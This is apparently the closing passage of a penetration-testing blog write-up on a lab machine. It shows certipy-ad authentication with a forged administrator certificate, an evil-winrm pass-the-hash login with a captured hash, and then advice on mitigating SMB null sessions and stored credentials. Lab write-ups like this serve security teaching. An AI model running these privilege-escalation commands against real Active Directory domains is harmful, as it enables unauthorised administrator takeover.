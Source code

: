 ```bash
faketime '2024-07-18 08:15:30' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

![Authenticating as local Administrator using the forged certificate](/Pen-testing-blog/assets/images/SuccessTGTAuthenticationForgedCertificate_Escape.png "Figure 25 - Authenticating as local Administrator account using forged certificate")

### Logging in as local Administrator user on domain via pass the hash attack

The final step to escalating my privileges to local Administrator user is to login as the local Administrator via a pass the hash attack, using the captured password hash from the previous step.

```bash
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

![Successfully login as local administrator user via pass the hash attack](/Pen-testing-blog/assets/images/SuccessfulEscalationPrivilegeAdministratorPTH_Escape.png "Successful privilege escalation to local administrator via a pass the hash attack")

## Vulnerabilities - Exploitation and mitigation summary

This machine demonstrated the following vulnerabilities and showed how they can be exploited. I've also included some security controls that can mitigate exploitation:

### Security misconfiguration - Null SMB sessions enabled

Enabling enumeration of file shares via SMB protocol without authentication can result in access to sensitive data by unauthorized users. In this machine, as a result of SMB null sessions being enabled, I was able to enumerate a file share containing a sensitive document with credentials without having to authenticate.

Security best practices and controls that can block and / or mitigate the effects of this vulnerability include the following:

* Disable SMB null authentication so that only authenticated users can access file share via the SMB protocol. In general, all access to system resources should occur only after authentication of end user identity.
* Restrict which users can access file shares via SMB protocol such as via editing Group Policy or the Windows registry
* Log all attempts to access file shares via SMB protocol. This monitoring will help to detect anomalous SMB access such as from null SMB sessions.

### Sensitive credential exposure

The storage of credentials in insecure locations on the local file system can result in their compromise by malicious actors. In this machine, a PDF document containing credentials were stored on a file share that did not require any authentication. As a result, I was able to use such credentials to obtain an initial foothold on the victim's machine on the AD domain.

Security best practices and controls that can block and / or mitigate the effects of this vulnerability include the following:

* Do not store credentials in files on the local file system in an insecure manner such as in plaintext and / or in an location that lacks access controls.
* Use a password manager to securely store credentials instead of on files in the local file system.
